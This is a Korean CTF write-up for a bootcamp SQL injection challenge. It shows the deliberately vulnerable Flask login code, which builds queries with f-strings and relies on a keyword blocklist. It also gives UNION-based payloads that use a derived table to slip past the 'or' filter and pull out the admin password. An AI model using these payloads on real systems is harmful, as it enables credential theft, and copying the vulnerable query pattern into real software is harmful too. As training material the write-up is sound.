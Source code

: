 ```yaml
---
title: "[Writeup] Knockon Bootcamp - 3.5 SQLi_WAF_5"
categories:
  - Web Hacking
tags:
  - Writeup
  - Knockon Bootcamp
  - SQL Injection
  - Filter Bypass
last_modified_at: 2024-08-30T01:10:00-05:00
published: true
---
```


|

## 문제

<http://war.knock-on.org:10034/>

![3.5 SQLi WAF 5 1](/assets/images/writeup/web-hacking/knock-on/3-5_SQLi_WAF_5_1.png)

![3.5 SQLi WAF 5 2](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_2.png)

![3.5 SQLi WAF 5 3](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_3.png)

|

|

|

### 목표

---

필터링 로직을 우회하여 admin 계정의 비밀번호 알아내기

|

### 공격 기법

---

SQL Injection

- Filter Bypass

|

|

|

## 문제 코드

```python
from flask import Flask, request, render_template, redirect, url_for
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy import text
import os
import string

app = Flask(__name__)

MYSQL_DATABASE = os.getenv("MYSQL_DATABASE")
MYSQL_USER = os.getenv("MYSQL_USER")
MYSQL_PASSWORD = os.getenv("MYSQL_PASSWORD")
MYSQL_HOST = "db"

app.config["SQLALCHEMY_DATABASE_URI"] = (
    f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
)
app.config["SQLALCHEMY_TRACK_MODIFICATIONS"] = False
db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(80), nullable=False)

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/login", methods=["GET", "POST"])
def login():
    error = None
    query = None
    if request.method == "POST":
        filtering_list = ['or', 'and', '"', '=', '<', '>', '\\', '-', '&', '|']
        username = request.form["username"].lower()
        password = request.form["password"].lower()

        for filter in filtering_list :
            if (filter in username) or (filter in password):
                return render_template("login.html", error='no Hack!')

        query = text(f"SELECT * FROM user WHERE username = '{username}' AND password = '{password}'")
        
        with db.engine.connect() as connection:
            result = connection.execute(query)
            user = result.fetchone()
        if user:
            return redirect(url_for("success", username=user[1]))
        else:
            error = "Invalid Credentials"
        return render_template("login.html", error=error, query=str(query))
    else :
        return render_template("login.html")

@app.route("/success")
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)

if __name__ == "__main__":
    db.create_all()
    app.run(debug=True, host="0.0.0.0", port=8080)
```

## 코드 분석

### login()

---

```sql
filtering_list = ['or', 'and', '"', '=', '<', '>', '\\', '-', '&', '|']
```

따옴표는 쓸 수 있음.

|

```sql
if user:
	return redirect(url_for("success", username=user[1]))
```

로그인 성공 시, `success`로 이동하며 `user[1]`을 넘겨줌

|

|

### success()

---

```sql
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)
```

`success.html`를 렌더링 하면서 `username`과 `flag`를 넘겨주지만, `login()`함수에서는 `user[1]`변수만 넘겨줬기 때문에 변수의 값에 따라 `username` 혹은 `flag` 둘 중 하나만 화면에 나타남

즉, `user[1]`을 `username`이 아니라 flag인 `password`로 직접 변경해줘야 함

|

|

|

## Exploit

```sql
' union select 1,2,3 #
```

쿼리를 입력하면 `user[1]` 부분인 2가 화면에 출력됨

|

```sql
union select 1,password,3 from user where username like 'admin'
```

실행하고자 하는 쿼리는 이런 형태임

|

```sql
union select 1,password,3 from (재구성테이블) where username like 'admin'
```

테이블을 재구성하여 **‘password’**의 **‘or’**을 우회해야 함

|

```sql
-- 테이블 재구성
(select 1, 2 as name, 3 as pw
union
select * from user)owo
```

|

```sql
union
select 1,pw,3 from (
	select 1, 2 as name, 3 as pw
	union
	select * from user)owo
where name like 'admin'
```

테이블 장착

|

|

|

## Payload

### 방법 1

---

```sql
username: ' UNION SELECT 1, pw, 3 FROM (SELECT 1, 2 AS name, 3 AS pw UNION SELECT * FROM user)owo WHERE name like 'admin' #

password: 1
```

|

### 방법 2

---

```sql
username: ' UNION SELECT 1, (select pw from (select 1,2 as name,3 as pw union select * from user)owo where name like 'admin'), 3 #

password: 1
```

|

|

### FLAG

---

```python
K0{good_4ft3rn00n!}
```

|

---